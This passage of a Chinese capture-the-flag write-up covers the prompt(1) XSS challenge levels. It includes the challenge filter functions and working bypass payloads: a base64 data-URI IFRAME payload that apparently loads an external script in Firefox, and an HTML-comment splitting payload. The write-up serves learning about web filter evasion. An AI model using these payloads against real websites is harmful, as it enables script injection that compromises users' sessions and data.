 2、然后你无法执行任何url，都会被转化为data：
3、最后包括\&都被过滤，所以你不能使用十六进制或者10进制编码。

这里想到的是用base64绕过，但是由于必须是大写字母的关系，所以我们必须用特殊的手段，官方解释是这样的：
One solution working in Firefox is to use the data scheme and hide the payload in base64. This will work because Firefox accepts "BASE64" as an encoding definition (compared to other browsers that require "base64" in lower case).

The remaining challenge is to craft a payload that will be represented upper case chars of base64. This can be achieved by using an upper case payload. for example, the following 

payload:
```
"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=
```
虽然base64帮助我们绕过很多，但是这里真正的黑魔法是msie，官方给出的是这样的：

While the Base64-based bypass was essentially a lot of engineering work, the true magic is in the MSIE version of this vector. Note that we bypass the check for // by using a Unicode representation of the slash. This and other Unicode characters work for that purpose. It has to be the second character only though. The first must be an actial slash (or solidus).
可惜可能是浏览器问题，我仍然执行不了。

## level15 ##
```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}        
```
这里和前面的7题类似，但是以15字母为一部分划分，而且js注释被过滤，不能使用/*，但是我们仍然可以使用html的注释绕过字符限制。
```
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>
```
这样一来源码会变成：
```
<p class="comment" title=""><svg><!--" data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt(1<!--" data-comment='{"id":2}'></p>
<p class="comment" title="-->)</script>" data-comment='{"id":3}'></p>
```

## level-1 ##
```
function escape(input) {
    // WORLD -1

    // strip off certain characters from breaking conditional statement
    input = input.replace(/[}<]/g, '');

    return '                                                     \n\
<script>                                                         \n\
    if (history.length > 1337) {                                 \n\
        // you can inject any code here                          \n\
        // as long as it will be executed                        \n\
        {{injection}}                                            \n\
    }                                                            \n\
</script>                                                        \n\
```